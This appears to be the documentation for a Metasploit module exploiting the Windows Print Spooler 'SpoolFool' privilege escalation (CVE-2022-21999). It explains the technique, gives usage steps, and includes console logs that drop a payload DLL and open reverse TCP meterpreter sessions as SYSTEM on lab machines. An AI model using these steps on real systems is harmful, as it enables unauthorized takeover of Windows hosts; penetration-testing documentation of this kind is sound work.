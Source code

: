 
## Vulnerable Application

The Windows Print Spooler has a privilege escalation vulnerability that
can be leveraged to achieve code execution as SYSTEM.

The `SpoolDirectory`, a configuration setting that holds the path that
a printer's spooled jobs are sent to, is writable for all users, and it can
be configured via `SetPrinterDataEx()` provided the caller has the
`PRINTER_ACCESS_ADMINISTER` permission. If the `SpoolDirectory` path does not
exist, it will be created once the print spooler reinitializes.

Calling `SetPrinterDataEx()` with the `CopyFiles\` registry key will load the
dll passed in as the `pData` argument, meaning that writing a dll to the `SpoolDirectory`
location can be loaded by the print spooler.

Using a directory junction and UNC path for the `SpoolDirectory`, the exploit
writes a payload to `C:\Windows\System32\spool\drivers\x64\4` and loads it
by calling `SetPrinterDataEx()`, resulting in code execution as SYSTEM.

Windows 10 x64 versions with builds <= 18362 and build revisions < 1526.

## Verification Steps

1. Get a meterpreter session on the target
2. Do: `use exploit/windows/local/spoolfool_privesc`
3. Do: `set SESSION <sess_no>`
4. Do: `set LHOST <lhost>`
5. Do: `set LPORT <port_no>`
6. Do: `run`
7. You should get a meterpreter session with SYSTEM privileges.

## Options

### WAIT_TIME

The time to wait for the print spooler to restart

## Scenarios

### Windows 10 21H2 (Build 19044.1288)

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Sending stage (200262 bytes) to 172.16.98.146
[*] Meterpreter session 1 opened (172.16.98.1:4444 -> 172.16.98.146:49674 ) at 2022-03-14 09:02:21 -0500

meterpreter > getuid
Server username: DESKTOP-49N0D8H\shelbypace
meterpreter > sysinfo
Computer        : DESKTOP-49N0D8H
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/cve_2022_21999_spoolfool_privesc
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set lhost 172.16.98.1
lhost => 172.16.98.1
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set session 1
session => 1
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Making base directory: C:\Users\shelbypace\AppData\Local\Temp\sYOsQqHLPd
[+] Printer DZBUma was successfully added.
[*] Setting spool directory: \\localhost\C$\Users\shelbypace\AppData\Local\Temp\sYOsQqHLPd\4
[*] Creating junction point: C:\Users\shelbypace\AppData\Local\Temp\sYOsQqHLPd -> C:\Windows\System32\spool\drivers\x64
[*] Creating the spool directory by restarting spooler...
[*] Attempting to restart print spooler.
[*] Sleeping for 5 seconds.
[+] Directory was successfully created.
[*] Writing payload to C:\Windows\System32\spool\drivers\x64\4\tqDNFaf.dll.
[*] Attempting to set permissions for payload.
[*] Payload should have read / execute permissions now.
[*] Sending stage (200262 bytes) to 172.16.98.146
[*] Meterpreter session 2 opened (172.16.98.1:4444 -> 172.16.98.146:49677 ) at 2022-03-14 09:08:36 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-49N0D8H
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows 10 1709 (Build 16299)

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Sending stage (200262 bytes) to 172.16.98.144
[*] Meterpreter session 1 opened (172.16.98.1:4444 -> 172.16.98.144:49671 ) at 2022-03-11 08:02:46 -0600

meterpreter > getuid
Server username: DESKTOP-EULFBD8\space
meterpreter > sysinfo
Computer        : DESKTOP-EULFBD8
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/cve_2022_21999_spoolfool_privesc
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set session 1
session => 1
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set lhost 172.16.98.1
lhost => 172.16.98.1
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Making base directory: C:\Users\space\AppData\Local\Temp\Xvamagt
[+] Printer ukfoJL was successfully added.
[*] Setting spool directory: \\localhost\C$\Users\space\AppData\Local\Temp\Xvamagt\4
[*] Creating junction point: C:\Users\space\AppData\Local\Temp\Xvamagt -> C:\Windows\System32\spool\drivers\x64
[*] Creating the spool directory by restarting spooler...
[*] Attempting to restart print spooler.
[*] Sleeping for 5 seconds.
[+] Directory was successfully created.
[*] Writing payload to C:\Windows\System32\spool\drivers\x64\4\UYoQz.dll.
[*] Attempting to set permissions for payload.
[*] Payload should have read / execute permissions now.
[*] Sending stage (200262 bytes) to 172.16.98.144
[*] Meterpreter session 2 opened (172.16.98.1:4444 -> 172.16.98.144:49674 ) at 2022-03-11 08:08:32 -0600

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-EULFBD8
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

## Windows Server 2019 v1809 (Build 17763.1577)

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Sending stage (200262 bytes) to 172.16.98.142
[*] Meterpreter session 1 opened (172.16.98.1:4444 -> 172.16.98.142:49674 ) at 2022-03-10 16:55:26 -0600

meterpreter > getuid
Server username: WIN-VR5A12O80FQ\space
meterpreter > sysinfo
Computer        : WIN-VR5A12O80FQ
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/cve_2022_21999_spoolfool_privesc
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set session 1
session => 1
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set lhost 172.16.98.1
lhost => 172.16.98.1
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Making base directory: C:\Users\space\AppData\Local\Temp\ruXuBfgxx
[*] v4 directory already exists.
[*] Writing payload to C:\Windows\System32\spool\drivers\x64\4\dVADJcO.dll
[*] Attempting to set permissions for payload.
[*] Payload should have read / execute permissions now.
[*] Sending stage (200262 bytes) to 172.16.98.142
[*] Meterpreter session 2 opened (172.16.98.1:4444 -> 172.16.98.142:49675 ) at 2022-03-10 17:01:02 -0600

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-VR5A12O80FQ
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

